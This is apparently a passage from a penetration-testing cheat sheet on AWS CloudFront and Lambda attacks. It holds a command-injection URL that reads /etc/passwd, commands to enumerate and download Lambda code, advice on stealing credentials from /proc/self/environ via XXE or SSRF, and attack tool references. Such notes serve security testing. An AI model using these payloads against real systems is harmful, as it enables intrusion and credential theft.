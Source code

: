 ### Tools

```text
# https://github.com/MindPointGroup/cloudfrunt
git clone --recursive https://github.com/MindPointGroup/cloudfrunt
pip install -r requirements.txt
python cloudfrunt.py -o cloudfrunt.com.s3-website-us-east-1.amazonaws.com -i S3-cloudfrunt -l list.txt
```

## **AWS Lambda**

### **Info**

```text
# Welcome to serverless!!!!
# AWS Lambda, essentially are short lived servers that run your function and provide you with output that can be then used in other applications or consumed by other endpoints.

# OS command Injection in Lambda
curl "https://API-endpoint/api/stringhere"

# For a md5 converter endpoint "https://API-endpoint/api/hello;id;w;cat%20%2fetc%2fpasswd"
aws lambda list-functions
aws lambda get-function --function-name <FUNCTION-NAME>
aws lambda get-policy
aws apigateway get-stages

# Download function code
aws lambda list-functions
aws lambda get-function --function-name name_we_retrieved_from_above --query 'Code.Location'
wget -O myfunction.zip URL_from_above_step

# Steal creds via XXE or SSRF reading:
/proc/self/environ
# If blocked try to read other vars:
/proc/[1..20]/environ
```

### Tools

```text
# https://github.com/puresec/lambda-proxy
# SQLMap to Lambda!!!
python3 main.py
sqlmap -r request.txt

# https://github.com/twistlock/splash
# Pseudo Lambda Shell

```
